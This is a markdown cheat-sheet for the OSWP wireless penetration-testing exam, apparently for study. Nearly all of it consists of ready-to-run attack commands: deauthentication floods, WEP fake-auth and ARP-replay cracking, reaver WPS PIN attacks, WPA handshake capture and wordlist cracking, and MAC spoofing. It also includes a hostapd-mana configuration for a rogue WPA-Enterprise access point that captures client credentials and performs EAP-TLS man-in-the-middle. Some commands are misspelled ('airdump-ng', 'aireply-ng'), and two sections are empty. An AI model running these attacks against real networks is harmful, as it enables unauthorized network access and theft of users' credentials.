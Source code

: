 # OSWP Cheat-sheet

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w <capture>
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID (Hiden ESSID)
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack

### Attack using Fake auth and ARP-replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -3 -b <AP_MAC> -h <host_MAC> <interface> # ARP replay
aircrack-ng <*.cap>
```
### Interactive packet Replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -2 -b <AP_MAC> -d ff:ff:ff:ff:ff:ff <interface>

```

## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack
### Handshake Capture (req. client) & Cracking
```
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> <interface>
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>
```

## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
# SSID of the AP
ssid=Amaze_LLC

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan1
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```



mana.eap_user
```
*     PEAP,TTLS,TLS,FAST,MD5,GTC
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
OR
iw dev <interface> set monitor none
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
### No associated devices
```
aireply-ng -0 100 -e <ESSID> <interface>
```
